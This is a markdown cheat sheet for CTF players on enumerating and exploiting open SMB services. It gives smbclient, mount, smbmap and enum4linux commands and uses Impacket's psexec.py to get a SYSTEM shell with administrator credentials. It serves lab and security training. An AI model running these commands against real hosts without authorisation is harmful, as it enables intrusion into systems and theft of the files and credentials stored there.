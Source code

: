 ### 📁 SMB is Open

When ports **139/445** are open, the target may be running **SMB (Server Message Block)**—commonly misconfigured in CTFs, making it a goldmine for enumeration and exploitation.

---

#### 🔍 Anonymous Share Enumeration
```bash
smbclient -L \\\\<HOST_IP>
```
Lists available shares. If successful without credentials, the server allows anonymous login.

---

#### 📂 Mounting SMB Share (Anonymous or Authenticated)
```bash
mkdir /mnt/smb
mount -t cifs //<HOST_IP>/<SHARE> /mnt/smb/ -o guest
```
Or use credentials:
```bash
mount -t cifs //<HOST_IP>/<SHARE> /mnt/smb/ -o username=<user>,password=<pass>
```

---

#### 🔐 With Credentials – Using `smbmap`
```bash
smbmap -H <HOST_IP> -u administrator -p password
```
Enumerates shares, permissions, and access level.

---

#### 🚀 Gaining Shell – Using `psexec.py`
```bash
python3 /opt/impacket/examples/psexec.py administrator@<HOST_IP>
```
If credentials are valid and ADMIN$ is accessible, this will drop you into a SYSTEM shell.

---

### 🎯 Pro Tips for CTFs:

- **Use `enum4linux`** for a quick, detailed SMB sweep:
```bash
enum4linux -a <HOST_IP>
```

- **Look for backup files or password.txt in shares** like `Backups`, `Users`, or `C$`.

- **Use `smbclient` interactively** to explore shares:
```bash
smbclient \\\\<HOST_IP>\\Backups
smb: \> ls
```
